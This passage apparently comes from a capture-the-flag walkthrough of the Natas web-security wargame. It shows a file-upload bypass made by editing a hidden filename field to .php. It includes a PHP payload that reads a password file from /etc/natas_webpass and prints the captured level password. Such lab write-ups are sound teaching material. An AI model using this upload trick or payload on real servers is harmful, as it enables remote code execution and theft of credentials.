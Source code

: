     ```html
    <form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="zc8rossbdl.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
    ```

- We can see that the default `filename` for any file that we upload would be `zc8rossbdl.jpg` under these specifications. The server `php` uses the extension for this filename to set the extension for the random filename it generates.
- When we upload a random image of size < 1KB to the server, it shows the filename generated and allows us to view the image. One can surmise that the image being opened(executed?) by the server.
- Now, as the server operates with `php` code, it may be possible to edit the default extension of the filename to `php` and then, sending our own `php` code that may then be executed when we open it.
- One possible code is as follows:

    ```php
    <?php

    $password = file_get_contents('/etc/natas_webpass/natas13');
    echo $password;

    ?>
    ```

- Once we edit the extension in the `value` attribute of the hidden `input` field, and then upload the above `php` file, it will be successfully uploaded, and when we open up the file, we should see the password being displayed.
- Password

    jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## 14 Level 13 → Level 14

- This level is quite similar to [Level 12 -> Level 13](##13-Level-12-→Level-13) in that we are required to upload a `jpeg` image. However, the landing page for `natas13` also states the following:

    > For security reasons, we now only accept image files!

- So, we cannot just upload a `php` file by editing the HTML source for the page. A closer look at the source code, however, reveals the following piece of code (the part that is different from the code for the previous level has been highlighted and underlined):

    ```php
    ...
    else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
            echo "File is not an image";
    } else {
    	if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
    }
    ...
    ```
